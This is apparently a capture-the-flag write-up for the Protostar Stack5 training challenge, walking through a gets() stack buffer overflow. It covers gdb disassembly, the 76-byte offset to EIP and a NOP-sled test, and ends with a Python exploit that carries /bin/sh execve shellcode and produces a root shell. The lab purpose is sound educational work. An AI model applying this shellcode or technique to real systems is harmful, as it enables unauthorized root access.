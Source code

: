 # PROTOSTAR : STACK 5
[Protostar:Stack5](https://exploit.education/protostar/stack-five/)

### **SOLUTION**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

The program takes command line input and there is a **buffer** variable which we can overflow since it takes input in vulnerable **gets()** function. But after overflowing the **buffer** where would we go? unlike the previous challenge there is **no win() function** so we need to return to a **stack address** and place our **shellcode** to get **ROOT SHELL**.

### **SOURCE CODE**
Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) 
```

Now lets find the padding required to overwrite the **instrution pointer** and modify the return address of the program.
<br>
**Padding = 76** to overwrite **eip** register.
<br>
If you observe the **esp** register, it denotes the stack address to which the **eip** returns to. Now this address is random so we can take the help of **NOP SLED** and check whether we can run **assembler code**.
```
(gdb) b *0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/2x $ebp
0x41414141:     Cannot access memory at address 0x41414141
(gdb) x/i $eip
0x80483da <main+22>:    ret    
(gdb) si
Cannot access memory at address 0x41414145
(gdb) i r
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xb7eadc00       0xb7eadc00 <__libc_start_main+112>
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) 
```
#### **PYTHON SCRIPT**
```py                                   
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

trap = "\xCC"*4

print(padding + ret + nop + trap)

```

The **\xCC** instruction causes **SIGTRAP** which interupts the execution of the program. It is usually generated when the CPU hits a **breakpoint**. Below is the program output based on the python script.
<br>
Now that we know assembler code is running lets replace with a **shellcode**.
```
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0xbffff825 in ?? ()
(gdb) 
```

This is the shellcode for linux /bin/sh shell 22 bytes. **struct pack** is to convert the address to bytes.

```py
import struct
padding = "A"*76

ret = struct.pack("I",0xbffff7c0)

nop = "\x90"*100

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

print(padding + ret + nop + shellcode)
```

Just piping the program output to ./stack5 won't work because the shell needs an input so **cat** command is used.
We got the root shell.
```
user@protostar:/tmp$ (python exploit.py; cat) | /opt/protostar/bin/stack5
whoami
root
```
